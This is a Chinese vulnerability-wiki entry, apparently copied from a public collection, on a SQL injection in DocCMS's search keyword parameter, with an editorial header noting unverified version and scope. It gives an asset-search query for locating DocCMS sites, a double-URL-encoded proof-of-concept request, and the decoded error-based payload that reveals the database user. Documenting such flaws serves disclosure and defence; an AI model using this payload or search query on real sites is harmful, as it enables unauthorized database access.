


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Version unknown; search keyword double decode; MySQL XML error function

- **来源与引用处置（1）**：Substantively identical109, only image folder/source repository/footer differ。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **事实待核（2）**：Product mistakenly fills version; no source flow or precise affected range。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# DocCMS keyword SQL注入漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

## 漏洞描述

DocCMS keyword参数存在 SQL注入漏洞，攻击者通过漏洞可以获取数据库信息

## 漏洞影响

```
DocCMS
```

## 网络测绘

```
app="Doccms"
```

## 漏洞复现

CMS官网



验证POC

```plain
/search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```



其中payload为下列语句的二次Url编码

```plain
' and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
